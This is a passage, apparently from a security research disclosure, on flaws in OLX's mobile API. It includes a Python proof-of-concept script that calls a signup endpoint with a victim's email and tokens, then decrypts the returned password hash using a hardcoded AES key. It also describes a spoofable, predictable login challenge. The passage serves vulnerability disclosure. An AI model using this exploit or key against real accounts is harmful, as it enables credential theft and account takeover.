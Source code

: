 
```
import sys
import urllib
import urllib2
import json
import traceback
import base64
from Crypto.Cipher import AES

def obtain_md5(email,access_token,fb_id):
  url = 'http://api.olx.com/iphone/user/facebook/%s/signup' %fb_id 
  data = '''accessToken=%s&email=%s&fullName=Victim&countryId=2''' %(access_token,email)
  req = urllib2.Request(url, data,headers={"User-Agent" : "OLX android 3.3.8 build 338"})
  response = urllib2.urlopen(req)
  jsonobject = json.loads(response.read())
  return jsonobject['response']['password']

def decrypt_hash(hashed_password):
  key = "0395a67c9aa847a756daa8535917e805"
  iv = "0000000000000000"
  decryptor = AES.new(key, AES.MODE_CBC, iv)
  return decryptor.decrypt(base64.b64decode(hashed_password))[:32]

if __name__ == '__main__':
  if len(sys.argv) < 1: 
    print "No email specified"
    exit(0) 
  encrypted =obtain_md5(sys.argv[1],sys.argv[2],sys.argv[3])
  try:
    hashed_password  = decrypt_hash(encrypted)  
    print "User md5 password is %s" %hashed_password
  except:
    traceback.print_exc()
    print "Failed accessing user's account"
    pass

      
```


## 7.3. Insecure login procedure in OLX newer API
 
In newer versions of the application, authentication consist in first requesting a challenge to _api-v2.olx.com/users/challenge_ with the username as a parameter. Once the challenge is obtained, then the application performs a SHA512 hash over the concatenation of the MD5 hash of the password with the username (i.e SHA512(MD5(password)+username or email) ). Then both the challenge and the SHA512 hash are sent to the server as URL parameters (_c_ and _h_ respectively) to _api-v2.olx.com/users/login_ so the application can then obtain a session key. 

There are several problems with this authentication procedure. The server challenge is predictable since it's a base64 encode of the username (encoded using Ceasar Cipher), the user ID and a timestamp. It can then be spoofed by an attacker. 

